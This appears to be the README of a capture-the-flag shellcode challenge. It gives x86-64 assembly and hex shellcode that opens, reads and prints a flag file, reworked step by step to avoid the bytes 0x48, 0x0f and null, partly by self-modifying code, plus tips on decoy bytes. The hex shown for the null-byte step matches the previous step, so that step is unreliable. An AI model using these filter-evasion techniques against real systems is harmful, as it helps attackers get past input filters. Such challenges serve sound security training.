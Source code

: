 # shooow your shell

Needs to be run as root (due to schitzo)

Some shellcode to test with:

```
xor eax, eax; mov al, 2; xor esi, esi; lea rdi, [rip+flag]; syscall; xor eax, eax; xor edi, edi; mov dil, 3; push rsp; pop rsi; xor edx, edx; mov dl, 32; syscall; xor eax, eax; mov al, 1; mov dil, 1; syscall; flag: .string "secret";
```

assembles to: `31c0b00231f6488d3d1a0000000f0531c031ff40b703545e31d2b2200f0531c0b00140b7010f0573656372657400`

then, we can shorten to (because the last null is already there from mmap): `31c0b00231f6488d3d1a0000000f0531c031ff40b703545e31d2b2200f0531c0b00140b7010f05736563726574`

then, we can avoid the 0x48:

```
xor eax, eax; mov al, 2; xor esi, esi; jmp omg; resume: pop rdi; syscall; xor eax, eax; xor edi, edi; mov dil, 3; push rsp; pop rsi; xor edx, edx; mov dl, 32; syscall; xor eax, eax; mov al, 1; mov dil, 1; syscall; xor eax, eax; mov al, 60; syscall; omg: call resume; flag: .string "secret";
```
assembles to: `31c0b00231f6eb215f0f0531c031ff40b703545e31d2b2200f0531c0b00140b7010f0531c0b03c0f05e8daffffff73656372657400`

then, we can avoid the null byte (because it's provided by the mmap anyways): `31c0b00231f6eb215f0f0531c031ff40b703545e31d2b2200f0531c0b00140b7010f0531c0b03c0f05e8daffffff73656372657400`

then, we can avoid the 0f:

```
inc byte ptr [rip+the_syscall]; xor eax, eax; mov al, 2; xor esi, esi; lea rdi, [rip+flag]; call the_syscall; xor eax, eax; xor edi, edi; mov dil, 3; push rsp; pop rsi; xor edx, edx; mov dl, 32; call the_syscall; xor eax, eax; mov al, 1; mov dil, 1; the_syscall: .byte 0x0e; .byte 0x05; ret; flag: .string "secret"
```
assembles to: fe052b00000031c0b00231f6488d3d21000000e81900000031c031ff40b703545e31d2b220e80700000031c0b00140b7010e05c373656372657400


# tricks

- read in from stderr (same socket as stdout)
- decoy bytes in final shellcode
